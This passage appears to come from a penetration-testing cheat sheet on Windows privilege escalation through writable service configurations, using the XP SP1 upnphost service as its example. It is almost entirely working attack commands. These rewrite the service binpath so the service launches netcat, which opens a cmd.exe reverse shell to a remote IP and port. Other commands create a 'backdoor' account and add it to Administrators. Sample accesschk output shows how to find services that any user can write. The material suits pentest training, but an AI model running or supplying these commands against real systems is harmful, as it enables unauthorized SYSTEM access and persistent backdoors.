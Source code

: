 ```powershell
```

### Example with Windows XP SP1 - upnphost

```powershell
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

Using [`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe) from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

```powershell
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```
